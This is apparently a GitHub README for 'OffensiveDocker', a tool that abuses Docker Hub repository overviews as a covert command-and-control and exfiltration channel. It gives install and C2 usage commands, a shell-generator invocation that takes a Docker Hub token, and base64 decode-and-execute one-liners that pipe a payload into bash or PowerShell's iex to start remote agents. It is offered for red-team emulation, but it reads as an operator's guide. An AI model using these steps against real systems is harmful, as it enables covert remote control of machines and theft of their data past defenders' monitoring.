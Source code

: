 # OffensiveDocker by @0xbugatti
OffensiveDocker is a tool designed to turn Docker Hub repository to secure exfiltration and C&amp;C by JSON-based requests . This script allows you to save, show , and read command execution results in addition to execution , effectively enabling my APT Emulation Skills, cloud-based C2 (Command &amp; Control) system.
![odloogo](imgs/odlogo.ong)

# Features
- Execute new commands and append them to the repository.

- Retrieve and display C2 execution history stored in Docker Hub repository overviews.
        
- Encode Data before sent and Decode on display results from previous executions.
    
- reset db to avoid exceeding limits errors
  
- Save execution history into an SQLite database before reset .
    
- Switch between different agent repositories.
    
    
- Automatic repository creation if it doesn't exist.

# Note 
This Is Just POC of the Concept alot of Evasion Techniques could be Implemented but 
I will not disclose the special edition and awaiting that from contributers

# Installation 
```bash
git clone https://github.com/0xBugatti/OffensiveDocker.git
cd OffensiveDocker/
pip install -r requirements.txt
python C2-server.py --user <username> --new --repo <repo> --token <docker_hub_token>

```
# Usage


## Create repos 

```
python C2-Server.py --user <username> --new --repo <repo> --token <docker_hub_token>
```

- `--user` : Docker Hub username
    
- `--repo` : Repository name
    
- `--token` : Docker Hub API token
    
- `--save` : Save all C2 connection data to SQLite and exit
    
- `--read` : Read all C2 connection data and exit
    
- `--new` : Create the repository if it does not exist

## Interactive Mode

Once the script is running, you can use the following commands:

#### Available Commands:

|Command|Description|
|---|---|
|`exec "text"`|Add a new command to be executed|
|`show <ID>`|Retrieve and decode the 'result' field for the given ID|
|`setagent-repo <name>`|Change the current agent repo|
|`read`|Display all C2 connection data in a table|
|`save`|Save all connection data to an SQLite database|
|`help`|Display this help menu|
|`reset`|Reset the repository overview|
|`stop`|Exit the program|

##### Example
```
testit> exec "whoami"
testit> show 1
testit> save
testit> read
testit> stop
```


## Generating a reverse shells

### bash

```bash
python3 shellgen.py --repourl "https://hub.docker.com/v2/repositories/your-user/your-repo" --token "your-docker-token" --mode bash`
```

```bash
echo "YmFzZTY0LWVuY29kZWQtc2NyaXB0" | base64 -d | bash
```

### powershell

```bash
python3 shellgen.py --repourl "https://hub.docker.com/v2/repositories/your-user/your-repo" --token "your-docker-token" --mode powershell`
```
**Example :**



```powershell
([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("YmFzZTY0LWVuY29kZWQtc2NyaXB0"))) | iex
```

## POCs

## License

This project is licensed under the MIT License.

## Author

Developed by **0xbugatti**



